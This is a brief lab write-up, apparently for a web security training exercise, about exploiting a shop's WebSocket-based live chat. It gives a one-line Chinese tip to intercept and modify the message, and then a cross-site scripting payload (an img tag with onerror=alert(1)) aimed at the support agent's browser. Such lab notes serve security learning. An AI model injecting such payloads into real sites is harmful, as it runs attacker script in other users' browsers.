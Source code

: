 # Lab: Manipulating WebSocket messages to exploit vulnerabilities

This online shop has a live chat feature implemented using WebSockets.

Chat messages that you submit are viewed by a support agent in real time.

To solve the lab, use a WebSocket message to trigger an alert() popup in the support agent's browser.

## WebSockets
* 攔截一下改一下就可以了
```
payload = </td><img src=# onerror=alert(1)>
```